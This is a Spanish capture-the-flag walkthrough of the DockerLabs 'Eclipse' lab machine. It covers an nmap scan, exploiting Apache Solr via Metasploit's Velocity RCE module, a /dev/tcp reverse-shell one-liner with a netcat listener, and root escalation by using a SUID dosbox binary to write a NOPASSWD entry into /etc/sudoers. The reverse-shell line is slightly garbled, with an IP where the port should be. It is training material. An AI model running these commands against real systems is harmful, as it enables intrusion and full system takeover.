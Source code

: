 # Eclipse DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip eclipse.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh eclipse.tar
```

Info:

```
stamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 12:25 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000024s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://express.dl:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Si vamos al puerto `8983` vemos que nos carga un software llamado `Solr` por lo que vamos a buscar si contiene alguna vulnerabilidad dicho software.

Antes vamos a ver en que version esta.

```shell
http://172.17.0.2:8983 [302 Found] Country[RESERVED][ZZ], IP[172.17.0.2], RedirectLocation[http://172.17.0.2:8983/solr/]
http://172.17.0.2:8983/solr/ [200 OK] Country[RESERVED][ZZ], IP[172.17.0.2], JQuery[2.1.3], Script, Title[Solr Admin], X-Frame-Options[DENY], X-UA-Compatible[IE=9]
```

No nos da mucha informacion, pero vamos a ver en `metasploit` que vemos.

## Escalate user ninhack

### Metasploit

```shell
msfconsole -q
```

Si buscamos por el software:

```shell
search solr
```

Info:

```
Matching Modules
================

   #   Name                                            Disclosure Date  Rank       Check  Description
   -   ----                                            ---------------  ----       -----  -----------
   0   exploit/linux/http/apache_solr_backup_restore   2024-02-24       excellent  Yes    Apache Solr Backup/Restore APIs RCE
   1   exploit/multi/http/solr_velocity_rce            2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   2     \_ target: Java (in-memory)                   .                .          .      .
   3     \_ target: Unix (in-memory)                   .                .          .      .
   4     \_ target: Linux (dropper)                    .                .          .      .
   5     \_ target: x86/x64 Windows PowerShell         .                .          .      .
   6     \_ target: x86/x64 Windows CmdStager          .                .          .      .
   7     \_ target: Windows Exec                       .                .          .      .
   8   auxiliary/scanner/http/log4shell_scanner        2021-12-09       normal     No     Log4Shell HTTP Scanner
   9     \_ AKA: Log4Shell                             .                .          .      .
   10    \_ AKA: LogJam                                .                .          .      .
   11  exploit/linux/http/trendmicro_websecurity_exec  2020-06-10       excellent  Yes    Trend Micro Web Security (Virtual Appliance) Remote Code Execution


Interact with a module by name or index. For example info 11, use 11 or use exploit/linux/http/trendmicro_websecurity_exec
```

Vemos que el que mas nos interesa es el numero `1` que seria `multi/http/solr_velocity_rce` y lo configuramos de la siguiente forma:

```shell
set LPORT <PORT>
set LHOST <IP_HOST>
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.120.128:7777 
[*] 172.17.0.2:8983: Authentication not required
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 6.8.11-amd64
[*] Found core(s): 0xDojo
[+] Found Velocity Response Writer in use by core '0xDojo'
[!] params.resource.loader.enabled for core '0xDojo' is set to false.
[*] Targeting core '0xDojo'
[*] params.resource.loader.enabled is false for '0xDojo', trying to update it...
[+] params.resource.loader.enabled is true for core '0xDojo'
[*] Using URL: http://192.168.120.128:8080/WI2zfuBr7/
[*] Sending stage (57971 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.120.128:7777 -> 172.17.0.2:58324) at 2025-01-10 12:35:15 -0500
[*] Server stopped.

meterpreter > getuid
Server username: ninhack
```

## Escalate Privileges

Y vemos que funciona, por lo que haremos lo siguiente, vamos a ver si tiene permisos `SUID` importantes para dicho usuario.

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2107068     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  2097398     52 -rwsr-xr-x   1 root     root          52880 Mar 23  2023 /usr/bin/chsh
  2097522     48 -rwsr-xr-x   1 root     root          48896 Mar 23  2023 /usr/bin/newgrp
  2097533     68 -rwsr-xr-x   1 root     root          68248 Mar 23  2023 /usr/bin/passwd
  2097585     72 -rwsr-xr-x   1 root     root          72000 Mar 28  2024 /usr/bin/su
  2097459     88 -rwsr-xr-x   1 root     root          88496 Mar 23  2023 /usr/bin/gpasswd
  2097517     60 -rwsr-xr-x   1 root     root          59704 Mar 28  2024 /usr/bin/mount
  2097609     36 -rwsr-xr-x   1 root     root          35128 Mar 28  2024 /usr/bin/umount
  2097392     64 -rwsr-xr-x   1 root     root          62672 Mar 23  2023 /usr/bin/chfn
  2106566   2504 -rwsr-xr-x   1 root     root        2560896 Sep 19  2022 /usr/bin/dosbox
  2106676    276 -rwsr-xr-x   1 root     root         281624 Jun 27  2023 /usr/bin/sudo
```

Vemos un binario interesante que es el siguiente:

Como estamos en `meterpreter` no nos va a dejar abrir el `nano` por lo que haremos lo siguiente:

```shell
shell
bash -c "sh -i >& /dev/tcp/<IP>/<IP> 0>&1"
```

Estaremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y si lo ejecutamos y nos vamos a la escucha obtendremos una shell, por lo que la sanitizaremos.

Sanitizacion de la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Y ahora haremos lo siguiente:

```shell
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Y con esto seremos `root`.
